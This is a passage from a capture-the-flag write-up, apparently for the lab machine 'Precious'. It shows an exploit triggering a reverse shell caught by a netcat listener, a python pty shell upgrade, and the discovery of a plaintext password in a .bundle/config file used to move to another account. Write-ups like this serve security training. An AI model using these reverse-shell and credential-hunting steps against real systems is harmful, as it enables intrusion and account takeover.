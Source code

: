 ```bash
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Back to our listener:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.189] 45308
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

Success!

## Lateral movement

Before moving forward, let's first upgrade our shell and get our first flag:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$
ruby@precious:/var/www/pdfapp$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/home/henry/user.txt
```

The `user.txt` file is within `henry`'s directory, therefore, we cannot read it! We will have to find a way to obtain control of its account. Let's start by exploring our home directory:

```bash
# list the contents of the directory
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 19 13:35 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 19 13:35 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
# list the contents of the hidden 'bundle' directory
ruby@precious:~$ ls -la .bundle
ls -la .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Jan 19 13:35 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
# display the contents of the 'config' file
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
